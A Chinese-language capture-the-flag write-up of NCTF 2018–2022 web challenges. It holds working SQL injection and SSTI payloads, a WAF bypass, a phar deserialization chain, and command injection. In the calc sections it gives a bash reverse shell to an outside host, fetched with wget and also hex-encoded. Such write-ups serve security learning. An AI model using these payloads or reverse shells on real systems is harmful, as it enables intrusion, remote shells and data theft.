


# NCTF2018

## 签到题

访问环境的时候很慢然后跳到了**secret.php**

curl查看历史记录就可看到**flag**

```bash
xlccccc@xl-pc:~$ curl -v 1.14.71.254:28584
*   Trying 1.14.71.254:28584...
* TCP_NODELAY set
* Connected to 1.14.71.254 (1.14.71.254) port 28584 (#0)
> GET / HTTP/1.1
> Host: 1.14.71.254:28584
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Wed, 30 Nov 2022 14:49:24 GMT
< Server: Apache/2.4.18 (Ubuntu)
< nctf2018: flag{w3lc0m3_t0_nctf2018hhhhhhhhhhhh}
< location: ./secret.php
< Content-Length: 22
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 1.14.71.254 left intact
flag{this_is_not_flag}
```

## 滴!晨跑打卡

简单的sql注入

```
1'%a0union%a0select%a01,2,flag,4%a0from%a0pcnumber;%00
```

## flask真香

结合题目和页面上渲染出来的`/`后任意字符串，可以猜到是**SSTI**

同样一个简单的字符串拼接**SSTI**

```python
http://1.14.71.254:28651/{{""["__cla""ss__"]["__m""ro__"][-1]["__subcl""asses__"]()[228]["__in""it__"].__globals__['po''pen']('cat /Th1s_is__F1114g').read()}}
```

## 小绿草之最强大脑

源码中说源码泄露，扫目录除了发现几个没用的js以外没发现任何有用的东西

看wp发现是`index.php.bak`

```php
<?php
if(isset($_SESSION['ans']) && isset($_POST['ans'])){
	if(($_SESSION['ans'])+intval($_POST['input'])!=$_POST['ans']){
		session_destroy();
		echo '
		<script language="javascript">  
		alert("怎么没算对呢？");  
		window.history.back(-1);  </script>';
	}
	else{
		if(intval(time())-$_SESSION['time']<1){
			session_destroy();
			echo '
			<script language="javascript">  
			alert("你手速太快啦，服务器承受不住!!!");  
			window.history.back(-1); </script> ';
		}
		if(intval(time())-$_SESSION['time']>2){
			session_destroy();
			echo '
			<script language="javascript">  
			alert("你算的太慢了少年！");  
			window.history.back(-1); </script> ';
		}
		echo '
		<script language="javascript">  
		alert("tql，算对了！！");  
	     </script> ';
		$_SESSION['count']++;
	}
}
?>
```

时间在**1~2s**，且用了**intval**防止溢出

```php
<?php 
echo intval('4200000000000000000000');#注意是字符串
?>
9223372036854775807
```

写出exp

```python
import requests
import time

url = 'http://1.14.71.254:28485/'
session=requests.session()
r = session.get(url = url)
a = 0
payload = ''
while(1):
    while(1):
        a = r.text.find('<div style="display:inline;">', a + 1)
        print(a)
        if a == -1:
            break
        payload += r.text[a+29]
    b = eval('9223372036854775807 + ' + payload[:-1])
    print(b)
    print
    time.sleep(1)
    data = {
        'ans' : b,
        'input' : '4200000000000000000000'
    }
    print(data)
    r = session.post(url = url, data = data)
    print(r.text)
    a = 0
    payload = ''
```

## Flask PLUS

除了`os._wrap_close`的位置变了，其他一模一样

```python
{{""["__cla""ss__"]["__m""ro__"][-1]["__subcl""asses__"]()[137]["__in""it__"].__globals__['po''pen']('cat /Th1s_is__F1114g').read()}}
```

## Easy_Audit

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if($_REQUEST){
    foreach ($_REQUEST as $key => $value) {
        if(preg_match('/[a-zA-Z]/i', $value))   die('waf..');
    }
}

if($_SERVER){
    if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))  die('waf..');
}

if(isset($_GET['yulige'])){
    if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige']))){         //日爆md5!!!!!!
        die('waf..');
    }else{
        if(preg_match('/nctfisfun$/', $_GET['nctf']) && $_GET['nctf'] !== 'nctfisfun'){
            $getflag = file_get_contents($_GET['flag']);
        }
        if(isset($getflag) && $getflag === 'ccc_liubi'){
            include 'flag.php';
            echo $flag;
        }else die('waf..');
    }
}


?>
```

### 第一个if

```php
if(preg_match('/[a-zA-Z]/i', $value))
```

如果`$_GET和$_POST`中有同名变量`$_REQUEST`会选择`$_POST`

而后面对变量的引用都是用的`$_GET`，所以可用这种方式绕过

### 第二个if

```php
if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))
```

`$_SERVER['QUERY_STRING']`不会进行url解码，直接url编码绕过即可

### 第三个if

```php
if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige'])))
```

经典的md5绕过，数组即可

### 第四个if

```php
if(preg_match('/nctfisfun$/', $_GET['nctf']) && $_GET['nctf'] !== 'nctfisfun')
```

%0a换行符绕过即可

### 第五个if

```php
$getflag = file_get_contents($_GET['flag']);
```

这一步可用data协议给$getflag赋任何值

所以最终payload

```PHP
GET:
?%79%75%6C%69%67%65[]=1&%6E%63%74%66=%6E%63%74%66%69%73%66%75%6E%0a&%66%6C%61%67=data://text/plain,ccc_liubi
POST:
yulige=1&nctf=2&flag=1
```

## 全球最大交友网站

下载下来就是一个`.git`

```shell
PS C:\Users\25952\Downloads\a> git log
commit 6b21737b59806722a89f33d26658b8508ac009e6 (HEAD, origin/master, master)
Author: X1cT34m <2577544522@qq.com>
Date:   Thu Oct 4 22:23:49 2018 +0800

    hint

commit 01b878ee5f39810a02f06b4a560571413020ea42 (tag: 1.0)
Author: X1cT34m <2577544522@qq.com>
Date:   Thu Oct 4 22:21:44 2018 +0800

    hello

commit 02b7f44320ac0ec69e954ab39f627b1e13d1d362
Author: X1cT34m <2577544522@qq.com>
Date:   Thu Oct 4 21:48:12 2018 +0800

    wrote a readme file
```

可以看到有两个历史版本

直接**checkout**看一下各版本内容就能看到**flag**

# NCTF2019

## SQLi

```mysql
sqlquery : select * from users where username='1' and passwd='1'
```

直接给出了**sql payload**

引号过滤了，可用转义符绕过

经过简单的fuzz发现过滤了`< > =`，`union select`也同样被过滤

那就只能**regexp**盲注了

**(robots.txt中给出了hint.txt)**

```php
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

写脚本注出passwd

```python
import string
import urllib.parse

import requests
url="http://1.14.71.254:28596/index.php"
str=string.ascii_letters+string.digits+"_-{}@!%$^&*()"
payload=''
while True:
    flag = True
    for i in str:
        result=payload+i
        passwd='||/**/passwd/**/regexp/**/"^{}";'+urllib.parse.unquote("%00")
        name="\\"
        res=requests.post(url=url,data={"username":name,"passwd":passwd.format(result)})
        # print(res.text)
        if "welcome" in res.text:
            payload+=i
            print(payload)
            flag=True
            break
    if not flag:
        print(payload)
        break
```

## phar matches everything

**catchmime.php**

```php
<?php
class Easytest{
    protected $test;
    public function funny_get(){
        return $this->test;
    }
}
class Main {
    public $url;
    public function curl($url){
        $ch = curl_init();  
        curl_setopt($ch,CURLOPT_URL,$url);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
        $output=curl_exec($ch);
        curl_close($ch);
        return $output;
    }
 
    public function __destruct(){
        $this_is_a_easy_test=unserialize($_GET['careful']);
        if($this_is_a_easy_test->funny_get() === '1'){
            echo $this->curl($this->url);
        }
    }    
}
 
if(isset($_POST["submit"])) {
    $check = getimagesize($_POST['name']);
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
    } else {
        echo "File is not an image.";
    }
}
?>
```

**getimagesize**也可使用**phar**协议

构造phar文件

```php
<?php
class Main {
    public $url = 'file:///etc/hosts';
}

$main = new Main();
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
$phar->setMetadata($main); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

**GET**传**careful**

```php
<?php
class Easytest{
    protected $test = '1';
    public function funny_get(){
        return $this->test;
    }
}
echo urlencode(serialize(new Easytest()));
```

都能打进内网，但是buu内网环境没了，nss不知道哪个是PHP-FPM(打出了一个登录框，也不知道是什么)

后面的也做不了了，先放着吧

# NCTF2022

坐牢咯，就出了一个**ezbypass**

## ezbypass

给出hint : modsecurity

简单的搜索得知这是开源的、跨平台的Web应用防火墙

寻找其相关的sql漏洞，在CVE上找到[CVE-2020-22669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22669)

可以找到如下payload

```SQL
http://127.0.0.1/user.php?id=@.:=right(right((select authentication_string from mysql.user limit 0,1),1111),1111) union%23%0adistinctrow%0bselect@.
```

根据题目说明**Can you find my password?**

```SQL
http://162.14.110.241:8099/sql.php?id=@.:=right(right(((select password from info where id = 1 limit 0,1)),1111),1111) union%23%0adistinctrow%0bselect@.
```

报错 **Illegal mix of collations for operation 'UNION'**

这是由于不同的列具有不同的排序或编码规则

规定下排序规则即可

```SQL
http://162.14.110.241:8099/sql.php?id=@.:=right(right(((select password COLLATE utf8_general_ci as password from info where id = 1 limit 0,1)),1111),1111) union%23%0adistinctrow%0bselect@.
```

## calc

```python
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
    blacklist = ['import','(',')','#','@','^','$',',','>','?','`',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag
    

@app.route("/")
def index():
    "欢迎来到NCTF2022！！！"
    return render_template("index.html")

@app.route("/source")
def source():
    src = """
    @app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"
    """
    return src

@app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"


if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000,debug = True)
```

给出了部分源码，上面源码是rce之后拿到的源码

在vps上新建test.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/1.15.107.150/3296 0>&1
```

利用换行符截断**echo**从而执行命令

利用**单引号**来绕过**eval**的命令执行，识别为字符串就不会报错

```bash
num=%0A%27wget%27%09%27https%3A%2F%2Fxxxxxx%2Ftest.sh%27%0A
num=%0A%27bash%27%09%27test.sh%27%0A
```



linux单引号包围也是可以执行命令的

类似**DASCTF三月赛**，只不过那题没过滤`#`，可以用`#`截断**eval**

## calc_revenge

太魔幻了，感觉差一点点就做出来了

首先是P神的这篇文章[我是如何利用环境变量注入执行任意命令](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html)

过年加代码星球鞭策自己！

```python
 @app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"
```

这是本题给出的代码

上面那篇文章给出的利用就是，通过更改环境变量来改变**system**的输出(**PHP的system调用的是系统的`popen()`**,python也是)
从而rce

所以目前的问题就是如何绕过**waf**

os可以用unicode绕过，类似**pwnhub冬季赛**里面的**calc**(当然显然是那题抄这题的)

而变量覆盖可以用[Python黑魔法-[]绕过空格实现变量覆盖](https://aluvion.github.io/2019/05/02/Python%E9%BB%91%E9%AD%94%E6%B3%95-%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E5%AE%9E%E7%8E%B0%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96/)

**python2下有效**



但是这个debug页面爆出来的是**python3**啊，我不理解，当时就是卡这点上了

利用黑魔法可构造出这一点

```python
[[str][0]for[os.environ['BASH_FUNC_echo%%']]in[['() { id; }']]]
```

然后**python eval**里面字符串是可以用**hex to str**来绕过的(**函数不行？貌似是可以的，但是这题里面由于data不是全局变量，会导致报错，我也不理解，本地试是可以的**)

最终**payload**

```python
[[str][0]for[ᵒｓ.environ['BASH\x5fFUNC\x5fecho%%']]in[['\x28\x29\x20\x7b\x20\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x2e\x31\x35\x2e\x31\x30\x37\x2e\x31\x35\x30\x2f\x33\x32\x39\x36\x20\x30\x3e\x26\x31\x3b\x7d']]]
```

直接反弹**shell**了

**app.py**

```python
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
    blacklist = ['import','(',')','#','@','^','$',',','>','?','`',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag
    

@app.route("/")
def index():
    "欢迎来到NCTF2022！！！"
    return render_template("index.html")

@app.route("/source")
def source():
    src = """
    @app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"
    """
    return src

@app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"


    

if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000,debug = True)
```


## ez_php

这题有点逆天了说实话，公共环境，不会重置靶机，里面放了一堆人的**shell**

官方wp，要自己挖

```php
/ajax.php?fun=diy_save&tpl_file=["aya/template/default/header.html"]&diy={"t":["t","b98ca3bae0de94438ac693d1a16b9ca5_0","{\"pars\":\"t\",\"name\":\"t',''}{system('cat /flag')}{\"}"]}
```

还有一个是通过默认的密钥伪造cookie，然后利用已有的漏洞来rce

## ez_sql

同等wp


